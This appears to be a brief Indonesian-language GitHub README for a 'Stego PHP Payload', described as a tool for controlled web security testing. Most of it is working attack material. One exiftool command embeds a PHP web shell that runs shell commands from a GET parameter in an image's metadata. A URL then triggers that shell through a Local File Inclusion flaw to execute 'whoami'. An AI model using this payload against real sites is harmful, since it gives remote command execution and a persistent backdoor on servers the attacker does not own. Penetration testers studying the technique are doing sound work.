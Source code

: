 # Stego PHP Payload
Steganografi untuk menyisipkan payload PHP dalam file gambar, digunakan untuk pengujian keamanan web di lingkungan terkontrol. 

# Payload

```
exiftool -Comment='<?php system($_GET["cmd"]); ?>' kucing.jpg -o shell.jpg
```

# Eksekusi
Eksekusi backdoor gambar ke Local File Inclusion :

```
https://example.com/index.php?page=uploads/shell.jpg&cmd=whoami
```



